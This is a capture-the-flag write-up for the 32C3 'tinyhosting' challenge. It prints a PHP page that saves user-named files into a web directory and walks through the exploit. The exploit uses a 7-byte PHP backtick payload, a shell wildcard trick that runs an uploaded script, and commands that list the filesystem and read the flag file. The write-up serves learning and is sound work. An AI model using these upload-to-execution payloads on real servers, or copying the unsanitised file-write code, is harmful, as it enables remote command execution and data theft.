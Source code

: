 # Writeup for tinyhosting

> Solves: 71
> 
> A new file hosting service for very small files. could you pwn it?
> http://136.243.194.53/

Under URL exist form with 2 inputs and submit for create new file:

* Filename (name for created file)
* Content (content for created file, with limit to 7 chars only)

Looking into source reveals:
```html
    <!DOCTYPE html>
    <!--[if lt IE 7]> <html class="lt-ie9 lt-ie8 lt-ie7" lang="en"> <![endif]-->
    <!--[if IE 7]> <html class="lt-ie9 lt-ie8" lang="en"> <![endif]-->
    <!--[if IE 8]> <html class="lt-ie9" lang="en"> <![endif]-->
    <!--[if gt IE 8]><!-->
    <html lang="en"> <!--<![endif]-->
    <head>
        <meta charset="utf-8">
        <meta http-equiv="X-UA-Compatible" content="IE=edge,chrome=1">
        <title>TinyHosting</title>
        <link rel="stylesheet" href="css/style.css">
        <!--[if lt IE 9]><script src="//html5shim.googlecode.com/svn/trunk/html5.js"></script><![endif]-->
    </head>
    <body>
    <!-- <a href="./?src=">src</a>-->
    <form method="post" action="" class="login">
        <p>
            <label for="login">Filename:</label>
            <input type="text" name="filename" >
        </p>
        <p>
            <label for="password">Content:</label>
            <input type="text" name="content" maxlength="7">
        </p>
        <p class="login-submit">
            <button type="submit" class="login-button">Create!</button>
        </p>
            </form>

    </body>
    </html>
```

We saw, that one line is commented, so we try use `get` parameter with `src` name. Url looks like `http://136.243.194.53/?src=anything`. Now if we look at the source, we saw source of index.php too.

```php
<?php
$savepath="files/".sha1($_SERVER['REMOTE_ADDR'].$_SERVER['HTTP_USER_AGENT'])."/";
if(!is_dir($savepath)){
    $oldmask = umask(0);
    mkdir($savepath, 0777);
    umask($oldmask);
    touch($savepath."/index.html");
}
if((@$_POST['filename']) && (@$_POST['content']) ){
    $fp = fopen("$savepath".$_POST['filename'], 'w');
    fwrite($fp, substr($_POST['content'],0,7) );
    fclose($fp);
    $msg = 'File saved to <a>'.$savepath.htmlspecialchars($_POST['filename'])."</a>";
}
?>
    <!DOCTYPE html>
    <!--[if lt IE 7]> <html class="lt-ie9 lt-ie8 lt-ie7" lang="en"> <![endif]-->
    <!--[if IE 7]> <html class="lt-ie9 lt-ie8" lang="en"> <![endif]-->
    <!--[if IE 8]> <html class="lt-ie9" lang="en"> <![endif]-->
    <!--[if gt IE 8]><!-->
    <html lang="en"> <!--<![endif]-->
    <head>
        <meta charset="utf-8">
        <meta http-equiv="X-UA-Compatible" content="IE=edge,chrome=1">
        <title>TinyHosting</title>
        <link rel="stylesheet" href="css/style.css">
        <!--[if lt IE 9]><script src="//html5shim.googlecode.com/svn/trunk/html5.js"></script><![endif]-->
    </head>
    <body>
    <!-- <a href="./?src=">src</a>-->
    <form method="post" action="" class="login">
        <p>
            <label for="login">Filename:</label>
            <input type="text" name="filename" >
        </p>
        <p>
            <label for="password">Content:</label>
            <input type="text" name="content" maxlength="7">
        </p>
        <p class="login-submit">
            <button type="submit" class="login-button">Create!</button>
        </p>
        <?php if(@$msg) echo $msg;?>
    </form>

    </body>
    </html>

<?php if(@$_GET['src']) show_source("index.php");?>
```

At first, quick analysis of the script and used functions, gave us these conclusions:

* We can save the file with any name and extension
* File really can contain only 7 bytes (`substr` is safe function)
* We cannot append content to existing file, because `fwrite` with second `w` param, begins save content always from 0 byte

In conclusion we knew, that only way to do something is create an executable file, which will have a max 7 bytes of content. 

First we checked whether php files are executed. In form we create new file:

* filename: `x.php`
* content: `<?=a?>` (<?= is shortest version <?php echo)

After submit, script return a link to our created link, like: `http://136.243.194.53/files/27725b3e4b3edf013480032fe2b318ffff4d04c7/x.php`

File print only `a` without php tags, so we knew that php files are interpreted. Next step was to see if we can call the server console command. So we can create this content ``<?=`w`;`` (`w` is shortest console command which show who is logged on and what they are doing / backticks are shortest version of php `shell_exec()`)

Result was a:
`18:27:23 up 1:28, 1 user, load average: 0.08, 0.04, 0.05 USER TTY FROM LOGIN@ IDLE JCPU PCPU WHAT root pts/0 197.0.75.43 16:59 1:27m 0.02s 0.02s`

So we can create executable php files and we can use server command, but limited to 7 bytes, means that 6 bytes are reserved for PHP language syntax, and we have only 1 character for command. Helpful was a command `*`, which if is called, execute command which is contain with all files in directory in alphabetical order. From a script we know, that always in folder exist file index.html, so we can create file only which are lexicographically lower than index.html. 

So we create new php file:

* filename: `x.php`
* content: ``<?=`*`;``

Next we create this file:

* filename: `bash`
* content: `anythin`

and this:

* filename: `c.sh`
* content: `ls -R /` (this command list all files recursively starting with /)

Result on `http://136.243.194.53/files/27725b3e4b3edf013480032fe2b318ffff4d04c7/x.php` was a:

`/bin /dev /file_you_want ... a lot of files`, because we execute finally these command `bash c.sh`

Probably flag exist in file `/file_you_want` so we can replace command `ls -R /` to `cat /f*` by creating new file

* filename: `c.sh`
* content: `cat /f*`

and finally we have the flag from content of file `/file_you_want` 

`32c3_Gr34T_Th1ng5_Are_D0ne_By_A_Ser13s_0f_5ma11_Th1ngs_Br0ught_T0ge7h3r`
